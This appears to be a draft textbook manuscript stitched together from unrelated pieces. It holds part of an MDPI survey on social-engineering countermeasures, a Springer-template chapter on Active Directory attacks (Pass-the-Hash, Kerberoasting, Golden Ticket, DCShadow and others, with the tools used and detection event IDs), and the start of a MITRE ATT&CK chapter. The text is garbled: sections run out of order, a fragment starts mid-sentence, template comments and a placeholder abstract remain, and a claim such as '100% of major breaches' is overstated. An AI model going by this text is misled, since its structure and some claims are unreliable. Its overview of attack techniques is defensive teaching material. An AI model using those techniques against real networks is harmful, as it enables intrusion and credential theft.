1}}). An organization should define clear policies for official communication within and outside the organization. Such policies may include a process of approval and validation for connecting a personal device to the organizational network, what level of information can be shared on emails, SMS, or calls, procedures to validate the authenticity of suspicious email, SMS, or calls, communication methods in case of working from home, etc. Organizational communication policies can play an integral role in avoiding any cyberattack based on SE. The importance and need of appropriate anti-viruses, firewall, spam filters, and updated software patches cannot be underestimated and must be installed on both organizational and personal systems. Some of the research and survey chapters on SE attack mitigation have encouraged organizations to provide company equipment to employees, as equipment managed by the organization’s IT department can easily be updated with security software and can be checked frequently for malicious software. Due to recent advancements in ML, the ML-based approaches are discussed separately in the following section.

\paragraph{\textit{3.7. Machine Learning-Based Countermeasures}}

Machine learning (ML) is another domain that can play an important role in countering SE-based cyberattacks. For phishing-based attacks, ML models can be trained to identify patterns and language in emails, SMS, malicious links, and even calls using natural language processing (NLP) [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B58-applsci-12-06042}{\textbf{58}},\href{https://www.mdpi.com/2076-3417/12/12/6042\#B71-applsci-12-06042}{\textbf{71}}]. However, the continuous evolution of phishing characteristics can be a concern for ML-based methods. In this section, some of the most significant ML methods to counter SE-based cyberattacks are presented. The section also highlights the existing concerns with the discussed ML methods.

\paragraph{3.7.1. Deep Learning}

Deep learning (DL)-based approaches can also play a vital role in countering SE-based cyberattacks since DL has been an effective approach used to counter a wide range of malware, phishing attacks, traffic analysis, spam detection, intrusion detection, etc.. For instance, deep neural networks (DNNs) in DL are inspired by the human brain. As more data are fed to a DNN, it gradually becomes better at detecting malicious dialog. Due to this reason, Google is also using neural networks to detect spam emails. When it comes to phishing, DNN-based solutions can be highly effective. 

In, the authors proposed a hybrid model based on DNN and long short-term memory (LSTM) to identify phishing web links. The authors used NLP to select features and character embedding-based features for the DNN-LSTM model to identify phishing website links. The model was trained on two datasets—Ebbu2017 and a secondary dataset that was based on several internet resources. Even with the high detection rate by the proposed model, the authors stated the concerns on the datasets used. The datasets used may lack the precise representation of real work attacks. The chapters [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B88-applsci-12-06042}{\textbf{88}},\href{https://www.mdpi.com/2076-3417/12/12/6042\#B89-applsci-12-06042}{\textbf{89}}] also presented DL-based approaches to counter SE-based attacks initiated through Twitter, DNS, URL, and email. The authors presented elaborate insight into the origination of ransomware based on different case studies. However, the absence of datasets representing sophisticated SE-based attacks may hold the key to enhanced DL to counter SE-based cyberattacks. This concern is highlighted by K. Simar, et al. in [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B90-applsci-12-06042}{\textbf{90}}]; in their study, they presented a DL-based approach to structure the unstructured data generated by different internet sources. However, handling misinformation can be a concern in the proposed approach. When validating the authenticity of the source, publishing an event or article may still be questionable. Nonetheless, if the source validation process can be enriched, the proposed approach can play an integral role in improving the DL-based approach against SE attacks.

\paragraph{3.7.2. Reinforcement Learning}

Reinforcement learning (RL), another aspect of ML, is also a method used to counter SE-based cyberattacks. In [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B91-applsci-12-06042}{\textbf{91}}], the authors proposed a cyber-resilient mechanism (CRM) to counter online threats, including uncertain real-time scenarios. The model used the feedback architecture of RL to define policies, as the system observes the online actions. However, the model requires online observations to learn and adapt unknown attack methods used in SE-based cyberattacks. In [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B92-applsci-12-06042}{\textbf{92}}], the authors used the RL-based greedy approach. The authors used predefined attack and defense approaches (i.e., Petri net) to train the RL model. Based on the experimentation results, the authors concluded that the model gradually improved its performance to identify a cyberattack. The goal of the chapter was to highlight the potential of RL to counter cyberattacks. The main concern for the RL-based approach is the observation of an unlimited range of human behaviors. As time goes by, the data related to human behavior will grow exponentially, making it difficult to track and store information [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B93-applsci-12-06042}{\textbf{93}}].

\paragraph{3.7.3. Natural Language Processing}

One of the most convenient tools in ML to counter phishing-based cyberattacks is NLP [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B94-applsci-12-06042}{\textbf{94}}]. NLP with ML has played an important role in countering phishing attacks [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B95-applsci-12-06042}{\textbf{95}}]. Several NLP processes, e.g., information extraction, text categorization, and machine translation, are inspired by DL [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B96-applsci-12-06042}{\textbf{96}}]. The NLP relies on five main features to identify phishing emails or online links. Those features are email body characteristics, email subject, uniform resource locator (URL) characteristics, hidden script (i.e., JavaScript, pop-up on click activity, etc.) characteristics, and sender characteristics. A chapter by Tim Repke et al. [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B97-applsci-12-06042}{\textbf{97}}] used the word-embedded technique with DL to analyze email text for human mode identification. This technique is not used to identify phishing, but it can be useful for identifying abnormalities in the usual email text, which can help in identifying email phishing, i.e., impersonation, BEC, clone phishing, etc. The only concern for the ML-based NLP model is the dependency on the surface text of an email. If the structure of dialog or a sentence is altered, it becomes difficult for the model to identify as phishing [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B96-applsci-12-06042}{\textbf{96}}]. However, the key challenge for ML to counter SE-based cyberattacks is the absence of an attack pattern or a methodology that can identify the multidimensional approach to SE-based cyberattacks [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B86-applsci-12-06042}{\textbf{86}}]. As discussed in \href{https://www.mdpi.com/2076-3417/12/12/6042\#sec3-applsci-12-06042}{\textbf{Section 3}}, SE-based attacks exploit human vulnerabilities, taking them beyond traditional security approaches in computer science. Therefore, the psychological decision-making and cognitive biases involved in SE-based cyberattacks are ongoing concerns for ML-based approaches . To achieve a higher detection rate, the researcher should explore the linguistic features of SE and integrate cognitive and psychological factors into ML-based approaches.

\subsection{\textbf{4. Discussion}}

The manipulation of human behavior and emotions in cyberattacks presents an unknown and challenging variable for security experts. The prime reason behind this variable can generally be characterized as culture. Culture can play an important role in influencing human behavior, beliefs, morals, decisions, and attitudes [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B99-applsci-12-06042}{\textbf{99}},\href{https://www.mdpi.com/2076-3417/12/12/6042\#B100-applsci-12-06042}{\textbf{100}}]. Even with technological advancements in security, humans can be exploited for their vulnerabilities. Based on \href{https://www.mdpi.com/2076-3417/12/12/6042\#table_body_display_applsci-12-06042-t009}{\textbf{Table 9}}, it can be concluded that the most recent publications agree that raising the awareness of cybersecurity through training and education is essential. Such awareness can help in decreasing cyberattacks based on SE. On the other hand, some studies [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B101-applsci-12-06042}{\textbf{101}},\href{https://www.mdpi.com/2076-3417/12/12/6042\#B102-applsci-12-06042}{\textbf{102}},\href{https://www.mdpi.com/2076-3417/12/12/6042\#B103-applsci-12-06042}{\textbf{103}}] highlight that despite appropriate training and policies, human vulnerabilities can still be exploited via SE attacks. For example, not every individual working in an organization has basic knowledge of computer security. Training an employee with no prior computer knowledge can be costly, time-consuming, and may not be very effective [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B104-applsci-12-06042}{\textbf{104}}]. Such employees are highly vulnerable to several phishing-based SE attacks. Another study [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B105-applsci-12-06042}{\textbf{105}}] concluded that an individual’s self-efficiency also plays an important role in avoiding SE attacks. The connection between an individual’s self-efficiency and vulnerability to SE attacks is further explored in some research publications.chapters [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B1-applsci-12-06042}{\textbf{1}},\href{https://www.mdpi.com/2076-3417/12/12/6042\#B4-applsci-12-06042}{\textbf{4}},\href{https://www.mdpi.com/2076-3417/12/12/6042\#B106-applsci-12-06042}{\textbf{106}},\href{https://www.mdpi.com/2076-3417/12/12/6042\#B107-applsci-12-06042}{\textbf{107}},\href{https://www.mdpi.com/2076-3417/12/12/6042\#B108-applsci-12-06042}{\textbf{108}}] categorized vulnerabilities based on behaviors displayed by an individual on social media and in daily life. The chapters then highlighted the behavioral traits that can be targeted by SE attacks. The studies also highlighted that social psychology can be used to reinforce security policies. The mapping in \href{https://www.mdpi.com/2076-3417/12/12/6042\#table_body_display_applsci-12-06042-t008}{\textbf{Table 8}} also provides an abstract view of how behaviors can be used to identify exploitable vulnerabilities for SE attacks. In addition, \href{https://www.mdpi.com/2076-3417/12/12/6042\#table_body_display_applsci-12-06042-t008}{\textbf{Table 8}} maps an extensive range of behavioral human traits on specific SE-based attacks, whereas most of the recent chapters focused on mapping phishing-based attacks on human behavior. It can be observed that there is a clear gap between sophisticated SE attacks and existing countermeasures. The lack of effective approaches to prevent and avoid SE-based cyberattacks is an ongoing challenge for security experts. To efficiently counter these SE attacks, multidimensional countermeasures based on human vulnerabilities and technical components are necessary. ML-based approaches show high efficiency in countering SE-based cyberattacks; however, there is still a need for further improvement in ML-based methods, as discussed in \href{https://www.mdpi.com/2076-3417/12/12/6042\#sec5-applsci-12-06042}{\textbf{Section 5}}. With that in mind, this chapter provides a broad outline of the components interconnecting human vulnerabilities with SE-based cyberattacks. Additionally, this research can provide readers and researchers with an appropriate understanding of the available countermeasures, including ML-based approaches against cyberattacks based on SE. Such understanding can assist organizations in defining policies to proficiently counter such attacks. Understandably, several research chapters have highlighted the impacts, approaches, and motivations behind SE attacks. However, to the best of our knowledge, there is a lack of research on mapping human behavior on specific SE attacks. The association of human behavior to specific SE attacks may hold the key to enhanced countermeasures against such attacks. So far, a handful of researchers have worked on associating behavioral approaches to explicit SE-based attack vulnerabilities. The association between attacks and human vulnerabilities presented in \href{https://www.mdpi.com/2076-3417/12/12/6042\#table_body_display_applsci-12-06042-t008}{\textbf{Table 8}} can play an integral role in improving the approaches to counter SE attacks.This chapter presents a theoretical understanding of cyberattacks based on SE. The key concern of evaluating human vulnerabilities in cybersecurity is the viewpoint of the observer. A cybersecurity professional might have a different perspective on human vulnerabilities as compared to a person with a background in human psychology. Most of the influence methods and human vulnerabilities discussed in the chapter have been used to conduct cyberattacks; however, a few of them are based on theoretical concepts and case studies. Such theoretical concepts need further studies and testing to improve the understanding of human behavior under SE attacks. The analysis of human vulnerabilities based on theoretical concepts can be considered a limitation of this chapter. Human behavior and vulnerabilities are also dependent on factors such as the working environment, age, educational background, work experience, etc. On the other hand, theoretical analysis plays a key role in providing grounds to improve and conduct further studies. In ML-based approaches, in particular, a better understanding of human behavior can lead to improved models of NLP- and DNN-based countermeasures. Despite the existing countermeasures and efforts, the World Economic Forum emphasized that SE-based cyberattacks are among the most concerning security aspects for organizations in 2022 [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B109-applsci-12-06042}{\textbf{109}}]. \href{https://www.mdpi.com/2076-3417/12/12/6042\#table_body_display_applsci-12-06042-t010}{\textbf{Table 10}} provides a summary of the topics covered in the chapter.\textbf{Table 10.} Summary of topics covered in the chapter.

\subsection{\textbf{5. Conclusions}}

Cyberattacks based on SE are major threats to organizations and individuals. As highlighted in the chapter, human vulnerabilities play a key role in initiating SE attack cycles. Recent SE attacks have highlighted that exploiting the human factor to conduct a cyberattack is a highly efficient approach. As a result, security through technology is no longer the sole solution for an organization or an individual. In organizations, the responsibility of mitigating cybersecurity threats is a shared task between the IT department and every employee. One approach to reducing the exploitation of human vulnerabilities is to improve security awareness. However, only providing awareness against SE-based cyberattacks is not sufficient. At the organizational level, a systematic approach to identifying vulnerable employees can play a significant role in minimizing cybersecurity threats, i.e., by analyzing the security awareness of the workforce, maintaining effective means of communication (regarding cyberattack threats), routine system updates, and appropriate security infrastructure. A cybersecurity approach involving human factors is a step towards an efficient, robust, and resilient cybersecurity framework. This research chapter can provide grounds for analyzing and constructing a security framework involving human factors. The chapter provides systematic knowledge of SE attacks, methods of attacks, human vulnerabilities, mapping of attacks on human vulnerabilities, and recent research on mitigating SE attacks; thus, this chapter provides a structural perspective to help understand how SE attacks work. For future work, we plan to design a systematic flow of steps to follow in case of a SE-based cyberattack or threat. The flow will also help in identifying vulnerabilities in implemented security infrastructure and employee awareness of SE cyberattacks. 

 
\paragraph{\textit{3.4. Trust and Deception}}

On social media and in virtual networking environments, users exhibit trust levels based on their engagement on the virtual platforms [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B60-applsci-12-06042}{\textbf{60}}]. The higher the engagement on virtual platforms, the higher the level of trust in them. This level of engagement can be measured in many ways, i.e., number of friends or connections, posts, groups followed, etc. Users that show high levels of social or virtual network engagement are more exposed to SE attacks [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B61-applsci-12-06042}{\textbf{61}}]. In SE attacks, trust and deception can further be classified into sub-domains, as shown in \href{https://www.mdpi.com/2076-3417/12/12/6042\#table_body_display_applsci-12-06042-t006}{\textbf{Table 6}}.\textbf{Table 6.} Sub-domains of trust and deception to conducting social engineering attacks.

 
%%%%%%%%%%%%%%%%%%%%% chapter.tex %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% sample chapter
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer-Verlag %%%%%%%%%%%%%%%%%%%%%%%%%%
%\motto Use the template \emph chapter.tex  to style the various elements of your chapter content. 
\chapter{Active Directory Attacks} 
\label intro  % Always give a unique label
% use \chaptermark  
% to alter or adjust the chapter heading in the running head

\begin{abstract}
No more than 200 words.
\end{abstract} 

\section{Active Directory Attacks} 
Active Directory (AD) attacks are a significant and ongoing concern for cybersecurity teams because AD serves as a vital directory service and identity management hub for Microsoft Windows-based networks. Attackers relentlessly target AD due to its centralized control over network resources, including user accounts and servers. If a malicious actor infiltrates a company's AD, they can escalate privileges, move laterally through the network, and gain access to sensitive data and systems. Historically, 100\% of major cyber security breaches have involved the compromise and misuse of a single account with privileged access in Active Directory.

Active Directory's pervasive role and inherent complexities make it an attractive target:
\begin{itemize}
    \item Centralized Control: AD is a central point of control, allowing attackers to take over an entire network once inside.
    \item Credential Theft: Usernames and passwords stored in AD can be stolen and used to access other systems, applications, and data.
    \item Privilege Escalation: AD stores information about user roles, permissions, and group memberships. Attackers can exploit this to gain higher access or control, facilitating lateral movement and expanding their foothold.
    \item Persistence: Once inside AD, attackers can establish backdoor access, add rogue user accounts, or manipulate security policies to evade detection and maintain access even after initial discovery.
\end{itemize}

Common Active Directory security risks that attackers exploit include, but are not limited to:

\subsection{1. Too Many Administrators}
There’s an old saying you may be familiar with; “too much of anything isn’t good for anyone.” This rings true for Active Directory security. If you have an overly long list of Active Directory users with Administrative rights, it’s likely that you’ve offered excessive levels of privilege to accounts that don’t require them. This has the potential to lead to privilege abuse, which is one of the leading causes of data leakage.

\subsection{2. Delegating Too Many Tasks in Active Directory}
Delegating tasks to non-administrators is easy to do, and it’s particularly tempting when you realize how much time you can free up; however, delegating too many tasks to non-administrators, without proper evaluation and tracking, could be a risk. Especially if those tasks involve dealing with sensitive data in Active Directory.

\subsection{3. Short and Simple Passwords}
Don’t be tempted by convenience! Short, simple passwords may be easy to remember, but they’re also easy to guess. All it takes to compromise your entire Active Directory database is one weak password on an account with Administrative rights. Ensure that you set a stringent password policy and force your users to adopt it. Changing passwords every 90-180 days also helps to ensure account safety.

\subsection{4. Leaving Inactive Accounts}
Inactive accounts may appear harmless, but in reality, they are an open invitation for anyone looking to compromise Active Directory. Inactive accounts that hold administrative privileges could be used by platform attackers to gain access to your Active Directory and, as it’s technically a legitimate account, this can be incredibly difficult to spot. Inactive accounts should be disabled and then deleted to mitigate these risks.

\subsection{5. Increasing Open Access}
Well-known security principals (Domain Users, Everyone, Authenticated users, etc.) can provide users with access to a diverse range of network resources. Whilst these principles can be used to grant access to large groups of valid accounts, be careful that your Guest and Anonymous accounts are not granted the same open access. If they are, you could potentially be leaving your organization vulnerable to data theft!

\subsection{6. Not Knowing Who’s Logging in to Your Domain Controllers}
Not knowing who has the ability to log in to your Domain Controller makes it difficult to protect privileged identities and vital information. A blind spot like this within Active Directory can be costly. Instead, ensure that you have a continuous and proactive way of keeping track of such logins, so that you can quickly spot and react to anomalies.

\subsection{7. Relaxed Password Policies}
Your password is essentially the lock that keeps your network secure. It is unwise to compromise when developing your password policies to cater to the laziness of your users. Many IT teams have told us that employees in their organization have the habit of leaving their computers unlocked, writing their passwords down, or even sharing passwords with other users. Your password policies must be stringent and you must have a way of ensuring that they are followed to the letter – even if that means simply educating users about the risks of poor password management.

\subsection{8. Not Knowing the Members of Sensitive Security Groups}
Members of sensitive security groups like Domain, Enterprise, and Schema Administrators have the highest levels of privileges. If the credentials to an account with these privileges are stolen, it can be very damaging to your organization’s security. To mitigate these risks, only grant membership to those accounts that need it, and withdraw group memberships the minute they are no longer required.

\subsection{9. Unaware of Permission Inheritance in Group Nesting}
Active Directory nests groups are based on a parent-child hierarchy. When a group is added as a member of an administrative group, all members of that group will receive administrative privileges. This could potentially mean unauthorized personnel getting access to sensitive data. Don’t forget to track Group Nesting.

\subsection{10. Not Implementing Least Privilege Policy Models}
The principle of least privilege policy states that users should log on with a user account that has the absolute minimum permissions required for their job, nothing more. Whilst most can see the logic in such a policy, you’d be surprised at the number of organizations that do not follow it. You should be consistently tracking changes to privileges to ensure that the right users have the right levels of access to the right data. This will drastically reduce the risk of insider threats.

 
 

include inadequate password policies, lack of multifactor authentication (MFA), misconfigurations (such as misconfigured administrator privileges or hidden security identifiers), vulnerabilities in legacy systems, and insider threats. The pervasive nature of AD means that even default configurations, often optimized for discovery rather than security, leave many organizations vulnerable.

Here are some common Active Directory attack methods:
Credential Access and Theft Attacks These attacks aim to steal or misuse user credentials to gain unauthorized access.
Pass-the-Hash (PtH): This technique exploits the Windows authentication mechanism where systems compare NTLM hashes of user passwords instead of plaintext passwords. Attackers steal a user's password hash and use it directly to authenticate to other network resources. This attack is stealthy and efficient, posing risks like credential reuse, lateral movement, and long-term access. Tools like Mimikatz and evil-winrm are commonly used. Detection involves monitoring for anomalous login patterns, unusual service creation (e.g., via PsExec), memory scraping (e.g., of lsass.exe), and sudden surges in authentication requests.
Pass-the-Ticket (PtT): Attackers use stolen Kerberos Ticket Granting Tickets (TGTs) or Ticket Granting Service (TGS) tickets to authenticate to resources without needing the user's password. TGTs contain crucial information like the user's session key and group memberships, and they are portable, allowing reuse on any other network computer. Mimikatz and Rubeus are common tools for this attack. Detection involves monitoring for LSASS.exe hooking for ticket manipulation and analyzing Kerberos events like Event ID 4768 (TGT requested) and 4770 (TGS renewed) for discrepancies.
Roasting Attacks:
Kerberoasting: This post-exploitation technique targets service accounts with Service Principal Names (SPNs). Any authenticated domain user, even with low privileges, can request a TGS ticket for an SPN-registered account. The ticket is encrypted with the service account's password hash, which attackers can then retrieve and crack offline. This can lead to lateral movement and privilege escalation, potentially compromising the entire domain. Tools like Mimikatz, Rubeus, Impacket, and PowerView are used. Detection is challenging but can be achieved by monitoring Event ID 4769 (Kerberos service ticket requested) for anomalies like unexpected request volumes, unusual requesting accounts, or the presence of RC4-encrypted tickets (0x17 Ticket Encryption Type).
AS-REP Roasting (KRB\_AS\_REP roasting): This attack is possible when Kerberos pre-authentication is not configured for a user object. An attacker can request authentication data (AS-REP message), which is partially encrypted with the user's password, enabling offline brute-force attacks to retrieve the password. Rubeus, Kerbrute, and Impacket are tools employed. Detection involves monitoring Event ID 4768 (TGT requested) for multiple triggers in a short timeframe, especially if RC4 encryption is used, and Event ID 4625 (account failed to log on) for unauthenticated attempts.
Credential Dumping (NTDS.dit Extraction): Attackers target the ntds.dit file, the Active Directory database storing all object information including password hashes. Accessing Domain Controllers (DCs) or their backups allows exfiltration of this file, which can then be decrypted to reveal plaintext passwords. This attack signifies a complete domain compromise, as it exposes all sensitive information, including KRBTGT and DPAPI backup keys. Tools include Mimikatz and impacket-secretsdump, often leveraging Volume Shadow Copy Service or Ntdsutil. Detection requires enabling command-line auditing (Event ID 4688) for tool usage, monitoring application logs for NTDS database activity, and tracking ntds.dit file access attempts (Event IDs 4656, 4663).

Password Spraying: Attackers attempt to authenticate to multiple user accounts using a single common password or a small list of passwords to avoid account lockouts. This is effective for initial access, situational awareness, or privilege escalation, especially against organizations with password reuse. Kerbrute and CrackMapExec are commonly used tools. Detection involves monitoring login-related events (Event IDs 4625, 4771, 4776, 4648) and unsigned LDAP bind attempts (Event ID 2889).

NTLM Relay Attacks (e.g., PetitPotam): These attacks capture NTLM authentication requests and "relay" them to another server to gain unauthorized access. PetitPotam, for example, exploits the MS-EFSR vulnerability to coerce a domain controller to authenticate, then relays these NTLM credentials to an AD Certificate Services (AD CS) server to obtain a certificate for the DC account, potentially leading to full domain compromise. Tools like Responder/Pretender and ntlmrelayx.py are used. Detection involves analyzing network traffic for NTLM responses and monitoring specific authentication events.

II. Privilege Escalation Attacks These attacks aim to elevate an attacker's access from a lower-privileged account to a higher-privileged one.
ACL Abuse (Access Control Lists): Misconfigured ACLs can create paths for low-privileged users to escalate access and potentially gain full control over the domain. Common issues include GenericAll (full control), WriteDacl (permission modification), and AdminSdHolder misconfigurations. Tools like ACLScanner from PowerView and BloodHound help identify these weaknesses. Regular auditing of permissions and using attack path analysis tools are crucial for detection.
GPO Abuse (Group Policy Objects): Attackers exploit misconfigured GPO permissions to modify or link malicious GPOs, allowing them to execute harmful code, disable security tools, or increase user privileges across the network. This can lead to lateral movement, privilege escalation, and persistence. Detection often involves monitoring Event IDs 5136 and 5137 (directory service object modifications).
Kerberos Delegation Attacks: These attacks allow a service to impersonate a user to access another resource.
Unconstrained Delegation: A service can impersonate a user to access any other service. If a privileged user authenticates to a compromised system configured for unconstrained delegation, their TGT can be extracted from LSASS memory, leading to full domain control.
Constrained and Resource-Based Constrained Delegation (RBCD):  These offer more limited forms of delegation but can still be abused for privilege escalation.
MachineAccountQuota     Compromise : Exploits a default AD setting allowing users to create up to ten computer objects, which automatically join the "Domain Computers" group and inherit its privileges. If this group is overly privileged, attackers can escalate their access. Detection includes monitoring Event ID 4741 (computer object creation) for unusual activity.
DNSAdmins Abuse:  Membership in the DNSAdmins group can allow attackers to trigger the DNS server to load a malicious DLL under the SYSTEM context, leading to remote code execution on the domain controller.

Active Directory Certificate Services (AD CS) Compromise:  AD CS, Microsoft's Public Key Infrastructure (PKI) implementation, is a complex service often overlooked in hardening.
Vulnerable Certificate Templates (e.g., ESC1):  Misconfigured templates can allow any user to request a certificate on behalf of privileged users, enabling impersonation.
Improper Access Controls (ESC4, 5, 7):  Weak permissions on certificate templates or PKI objects can enable full PKI compromise.
NTLM Relay to AD CS HTTP Endpoints (ESC8, 11):  Coerces NTLM authentication to AD CS web enrollment pages, issues a DC certificate, and then uses it to obtain a TGT for full control.
Tools like   Certipy ,   Certify , and   Mimikatz  are used to exploit these vulnerabilities. Detection involves auditing AD CS events (Event IDs 4886, 4887, 4900) and monitoring TGT requests with certificate information (Event ID 4768).                                                                                            
ZeroLogon (CVE-2020-1472) \& PrintNightmare (CVE-2021-1675/34527):  These are examples of \textit "Zero2Hero"  exploits that can provide domain administrator-level access in minutes by exploiting critical vulnerabilities.

Child/Parent Domain Escalation:  Attackers can abuse trust keys and the krbtgt account to elevate privileges from a child domain administrator to Enterprise Admins in the forest root. This can also involve bypassing SID Filtering through misconfigured SID History settings, allowing an attacker to inherit privileged SIDs. Detection requires monitoring changes to the sIDHistory attribute (Event IDs 4103, 4104, 4675).
BadSuccessor (Windows Server 2025 dMSA Vulnerability):  This recently discovered privilege escalation flaw exploits the delegated Managed Service Account (dMSA) feature, allowing compromise of any user in Active Directory. It leverages \texttt CreateChild  permissions on an OU to gain power similar to DCSync attacks. This attack is particularly concerning as it was designed as a mitigation to Kerberoasting attacks but introduced a new attack vector.

 III. Persistence and Lateral Movement Attacks 
These attacks focus on maintaining access and spreading throughout the network.
Golden Ticket:  This powerful persistence technique misuses the krbtgt account's password hash to forge valid TGTs. Forged tickets are considered valid by AD, allowing attackers to impersonate any user, including domain administrators, with persistent and broad network access, bypassing regular authentication checks. Mimikatz and Impacket are tools used for forging. To fully negate a Golden Ticket, the krbtgt password must be changed twice.
Silver Ticket:  Attackers forge a Kerberos service ticket (TGS) to access specific services without requiring re-authentication by the domain controller. This is a more targeted attack than a Golden Ticket and bypasses DC validation, making it a stealthy privilege escalation method. It can achieve indefinite persistence by tampering with the computer object password change process. Mimikatz and Rubeus are typically used.
DCShadow:  This attack involves creating a fake domain controller to push malicious changes to legitimate AD objects via replication. It requires domain administrator rights to register the machine as a rogue DC and SYSTEM privileges on the compromised host. Mimikatz is the primary tool. Microsoft Defender for Identity detects machines attempting to register as rogue DCs.
Skeleton Key:  A persistence method on a domain controller that implants a master password, allowing an attacker to authenticate as any domain user while also allowing existing passwords to work. This attack operates in memory and does not survive reboots. Mimikatz is a known tool for this. Detection can be achieved by auditing the LSASS process and monitoring sensitive privilege usage (Event IDs 4673, 4611, 4688, 4689).

IV. Reconnaissance and Discovery 
These initial steps involve gathering information about the AD environment.
LDAP Reconnaissance:  Attackers use LDAP queries to discover users, groups, and computers to plan subsequent attacks. Most information in AD is world-readable by default, making this challenging to prevent entirely. Monitoring LDAP traffic for anomalies and enforcing least privilege are key steps for mitigation.
BloodHound: A powerful tool that maps out relationships between objects in an AD environment, revealing hidden attack paths that can lead to privileged access. It helps visualize privilege escalation routes.

V. General Vulnerabilities
Beyond specific attack techniques, fundamental weaknesses in AD configurations contribute to its exploitability:
Misconfigurations: Incorrectly set administrator privileges, "aged" accounts, or accounts lacking password expiration policies are common targets for abuse.
Legacy Systems: Outdated AD versions or components can contain known vulnerabilities that attackers readily exploit.
Insider Threats: Malicious employees can abuse their legitimate access to AD to steal data or cause harm.
Default Openness: AD's default "Read" access for all Authenticated Users can inadvertently expose sensitive information, making privileged group memberships easily discoverable by attackers.

The compromise of Active Directory can result in devastating consequences, including significant data loss, operational downtime, financial losses, regulatory fines, and severe reputational damage. Organizations must adopt a proactive, multi-layered security approach, emphasizing regular security audits, vulnerability assessments, and continuous monitoring to detect and respond to these threats effectively.

Next Step: Given the array of attack vectors, a useful next step would be to categorize and prioritize mitigation strategies for these AD attacks, perhaps using a framework like the MITRE ATT\&CK framework to align defenses with observed adversary tactics.

%%%%%%%%%%%%%%%%%%%%% chapter.tex %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% sample chapter
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer-Verlag %%%%%%%%%%%%%%%%%%%%%%%%%%
%\motto{Use the template \emph{chapter.tex} to style the various elements of your chapter content.}
\chapter{Chapter Heading}
\label{intro} % Always give a unique label
% use \chaptermark{}
% to alter or adjust the chapter heading in the running head

\begin{abstract}
Security architectures can pose complexity and cast doubt. How can we be certain that the solutions we have acquired are adequate? How can we know they are configured properly to cover the many vectors of a cyberattack? Much of the industry at large has adopted the use of MITREs \textbf{Adversarial Tactics, Techniques, and Common Knowledge Database (ATT\&CK)} Framework to help objectively assess those solutions and their coverage of an attacker's than an environment is most likely to encounter. This chapter aims showcase to defenders the benefits of learning from the mistakes of others, how to use the MITRE ATT\&CK framework to evaluate their blind spots, and understand through demonstrations how to better defend infrastructure through the use of coverage mapping, orbital scanning, and Caldera.
\end{abstract}

\section{The Importance of Cyber Threat Intelligence and the MITRE ATT\&CK Framework}

\begin{quote}
    "I must not fear. Fear is the mind-killer. Fear is the little-death that brings total obliteration. I will face my fear. I will permit it to pass over me and through me."
    -Frank Herbert, Dune
\end{quote}
Before an organization can effectively defend its environment, it must first understand the methods, tools, and tactics that real-world adversaries employ. One of the most valuable resources available for this exact purpose is the MITRE ATT\&CK Framework, a globally recognized knowledge base that systematically documents how cyber adversaries operate.

The MITRE Corporation
The MITRE Corporation is a not-for-profit organization that operates multiple \textit{Federally Funded Research and Development Centers (FFRDCs)} in the United States. Established to bridge the gap between government, industry, and academia, MITRE engages in a wide range of public-private partnerships, with a strong focus on cybersecurity innovation. It works closely with U.S. government agencies, critical infrastructure sectors, and private industry to research, design, and improve systems that safeguard national and organizational security.

Cybersecurity professionals may already be familiar with MITRE as the organization responsible for maintaining the \textit{Common Vulnerabilities and Exposures (CVE)} database-a publicly available list of known security vulnerabilities used worldwide for vulnerability management, patch prioritization, and security research.

Defining the MITRE ATT\&CK Framework
Pronounced as \textit{"MITE-ER ATTACK,"} the MITRE ATT\&CK stands for \textit{Adversarial Tactics, Techniques, and Common Knowledge.} It originated in 2013 as an internal MITRE project to document the \textit{Tactics, Techniques, and Procedures (TTPs)} that Advanced Persistent Threats (APTs) were using to compromise and persist within WIndows enterprise networks. Over time, ATT\&CK evolved into a globally accessible knowledgebase covering not just the Windows operating system, but also macOS, Linux, mobile platforms, cloud environments, and \textit{Industrial Control Systems (ICS).}

The framework organizes adversary behaviors into a series of \textit{tactics} (the adversary's technical goals during an intrusion) and \textit{techniques} (the specific methods used to achieve those goals). Each technique entry in ATT\&CK is enriched with fine details such as:
Technical descriptions and examples of real-world usage.
Mappings of real-world APTs and nation-states back to TTPs frequently used.
Detection guidance and telemetry sources.
Mitigation recommendations.
References to documented threat actor activity.

Why the MITRE ATT\&CK Framework Matters
The ATT\&CK framework matters significantly because for one, it provides you a structured, knowledge-based approach to understanding and mitigating cyber threats correctly and effectively. No guessing games. And secondly is because it has helped many organizations improve their security stances by offering a common language for describing attacker behavior. This effectively, in turn, enables better communications channels between security teams, which in turn guarantees a more effective response to when a breach or threat presents itself because we are all "speaking the same language." Confusion, for the most part, is eliminated.




\section{Exploitation: Pulling the Proverbial Trigger
}If delivery is the act of smuggling the weapon into the room unnoticed, exploitation is about pulling the proverbial trigger. At this stage is when the attacker executes the payload using the vulnerability identified back in the reconnaissance phase and actively abuses to gain a toehold. And for us, it means every prior prevention layer has failed to keep the weapon out.
The type of exploit used depends entirely on the chosen delivery vector and the specific weakness it is designed to target. For example:

\begin{itemize}
    \item An email-borne weapon might execute a malicious macro in a document.
    \item A poisoned website might trigger a browser or plugin exploit.
    \item A USB-delivered payload could auto-run malware or drop an infected rootkit.
\end{itemize}

